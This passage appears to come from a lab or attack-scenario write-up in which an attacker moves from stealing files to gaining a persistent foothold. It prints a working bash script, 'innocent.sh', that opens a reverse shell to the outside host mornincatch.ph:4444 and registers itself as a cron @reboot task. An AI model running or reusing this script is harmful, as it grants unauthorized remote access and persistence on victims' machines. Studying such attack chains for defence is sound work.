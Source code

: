 <img src="images/files.png" alt="Screenshot 2025-06-07 alle 09.16.28  " style="zoom:50%;" />

The attacker decides to steal these files, which could be done directly with RDP. However, to gain a better position, the attacker tries to obtain a reverse shell on the victim machine and use that for the exfiltration step.

#### 2.2. Reverse Shell with Persistence

The attacker has written `innocent.sh`, a script that spawns the reverse shell and mantains access, since the code to be executed is also saved as a scheduled task using `cron`.

```bash
#!/bin/bash

SAFETYCOM="/bin/bash -c 'bash -i >& /dev/tcp/mornincatch.ph/4444 0>&1'"

(crontab -l ; echo "@reboot sleep 200 && $SAFETYCOM") | crontab 2> /dev/null

eval "$SAFETYCOM"
```
